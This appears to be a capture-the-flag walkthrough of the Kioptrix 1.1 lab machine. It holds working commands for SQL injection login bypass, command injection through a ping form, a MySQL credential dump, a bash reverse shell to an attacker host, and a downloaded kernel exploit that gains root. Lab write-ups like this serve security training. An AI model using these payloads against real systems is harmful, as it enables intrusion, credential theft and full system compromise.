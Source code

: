 # Kioptrix 1.1

## Remote

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey:
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            869/udp  status
|_  100024  1            872/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2018-04-22T14:47:38+00:00; +4h00m00s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods:
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql    MySQL (unauthorized)
```

### Apache 2.0.52

The server is hosting a crude PHP login application. I'm able SQLi this form.

``` shell
curl -v http://192.168.122.61/index.php \
    --data-raw "btnLogin=Login&uname=u&psw=pass' OR 1=1-- "
```

This shows us a form that lets us ping a host. We can exploit this to
get command execution as the 'apache' user. After enumerating the
directory we get the SQL server login credentials.

``` shell
curl -v http://192.168.122.61/pingit.php \
    --data-raw "&submit=submit&ip=127.0.0.1; cat index.php"
```

```
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
  	mysql_select_db("webapp");

	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
```

Using this I'm able to query mysql for more users in the webapp database.

```
 curl http://192.168.122.61/pingit.php --data-raw '&submit=submit&ip=; mysql -hlocalhost -ujohn -phiroshima --database=webapp -e "select * from users;"'
; mysql -v -hlocalhost -uroot -phiroshima --database=webapp -e "select * from users;"<pre>--------------
select * from users
--------------

id	username	password
1	admin	5afac8d85f
2	john	66lajGGbla
</pre>%
```

And we can do the same in the mysql user table.

```
curl http://192.168.122.61/pingit.php --data-raw '&submit=submit&ip=; mysql -v -hlocalhost -ujohn -phiroshima --database=mysql -e "select * from user;"'
; mysql -v -hlocalhost -ujohn -phiroshima --database=mysql -e "select * from user;"<pre>--------------
select * from user
--------------

Host	User	Password	Select_priv	Insert_priv	Update_priv	Delete_priv	Create_priv	Drop_priv	Reload_priv	Shutdown_priv	Process_priv	File_priv	Grant_priv	References_priv	Index_priv	Alter_priv	Show_db_priv	Super_priv	Create_tmp_table_priv	Lock_tables_priv	Execute_privRepl_slave_priv	Repl_client_priv	ssl_type	ssl_cipher	x509_issuer	x509_subject	max_questions	max_updates	max_connections
localhost	root	5a6914ba69e02807	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y					0	0	0
localhost.localdomain	root	5a6914ba69e02807	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y	Y					0	0	0
localhost.localdomain			N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N					0	0	0
localhost			N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N					0	0	0
localhost	john	5a6914ba69e02807	Y	Y	Y	Y	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N	N					0	0	0
</pre>%
```

This would be possible to do this using sqlmap.

```
./sqlmap.py -u http://192.168.122.61/index.php --data='btnLogin=Login&psw=aaa&uname=aaa' --level 5 --risk 3 --dump

```

This returns this dump of the database.

```
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | admin    | 5afac8d85f |
| 2  | john     | 66lajGGbla |
+----+----------+------------+
```

I can use the same command injection to get a reverse shell.

``` local
nv -lvp 1234
```

```
curl -vi http://192.168.122.61/pingit.php --data-raw '&submit=submit&ip=; bash -i %3e%26 /dev/tcp/192.168.122.1/1234 0%3e%261'
```


## Local

There is a local privilege escalation for CentOS 4.5.

Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit

```
bash-3.00$ wget 192.168.122.1:8000/9542.c
--13:46:05--  http://192.168.122.1:8000/9542.c
           => `9542.c'
Connecting to 192.168.122.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

    0K ..                                                    100%   86.92 MB/s

13:46:05 (86.92 MB/s) - `9542.c' saved [2643/2643]

bash-3.00$ gcc -o 9542 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./9542
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00# hostname
kioptrix.level2
```

### Users

#### John
Password = 'GuardTower'
